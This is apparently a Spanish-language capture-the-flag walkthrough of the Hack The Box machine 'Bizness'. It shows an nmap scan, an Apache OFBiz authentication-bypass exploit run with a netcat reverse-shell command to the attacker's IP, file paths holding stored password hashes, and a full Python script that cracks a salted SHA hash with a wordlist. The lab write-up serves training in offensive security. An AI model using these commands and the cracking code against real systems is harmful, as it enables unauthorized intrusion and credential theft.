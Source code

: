 Primero de todo haremos un escaneo de la ip para ver que puertos estan abiertos y que servicios tiene asociados.

`sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.252 -oN escaneo`

<img src="Pasted image 20240426090418.png">

Vemos que está corriendo una web. Entonces procediremos a realizar un fuzzing de la misma.
Al hacerlo hemos encontrado una ruta que es `/control/login` que nos redirecciona a un apache OFBiz.
<img src="Pasted image 20240426092249.png">

Vamos a intentar bypassearlo, para ello buscaremos `apache ofbiz bypass` y entraremos al primer link. (https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) y clonaremos el github.

`git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git`

<img src="Pasted image 20240426092605.png">

Ahora vamos a ejecutar el exploit. Para ello nos vamos a poner en escucha con netcat y luego ejecutaremos el exploit.

`nc -lnvp 4444`

Y en otra terminal el exploit.

`python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.38 4444'`

<img src="Pasted image 20240426093645.png">

Como podemos ver tenemos el control de la máquina. Ahora nos pondremos en la carpeta del usuario y veremos que está la flag de usuario.
<img src="Pasted image 20240426093845.png">

Para escalar privilegios nos situaremos en la carpeta /opt/ofbiz y analizaremos los archivos y directorios. Tras analizar detalladamente he encontrado un archivo con la ruta:

`/opt/ofbiz/framework/resources/templates/AdminUserLogin.xml`

Este contenia el tipo de cifrado que es sha.

`{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a`

Tocará descifrarla, pero antes en la ruta:

`/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat`

He encontrado al password.

`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`

Para poder descifrarla, he encontrado el siguiente exploit y hay que introducir nuesto hash y tipo de cifrado.
````
import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        """
        Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.

        :param hash_type: The hash algorithm to use (default is SHA).
        :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).
        """
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        """
        Crypt a password using the specified hash type and salt.

        :param salt: The salt used in the encryption.
        :param value: The password value to be encrypted.
        :return: The encrypted password string.
        """
        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
        """
        Get the encrypted bytes for a password.

        :param salt: The salt used in the encryption.
        :param value: The password value to get encrypted bytes for.
        :return: The encrypted bytes as a string.
        """
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

# Example usage:
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'

# Create an instance of the PasswordEncryptor class
encryptor = PasswordEncryptor(hash_type)

# Get the number of lines in the wordlist for the loading bar
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

# Iterate through the wordlist with a loading bar and check for a matching password
with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        # Get the encrypted password
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        # Compare with the search hash
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  # Stop the loop if a match is found
````

Lo ejecutamos y nos da el password.
<img src="Pasted image 20240426100223.png">
<img src="Pasted image 20240426100347.png]]![[Pasted image 20240426100536.png">
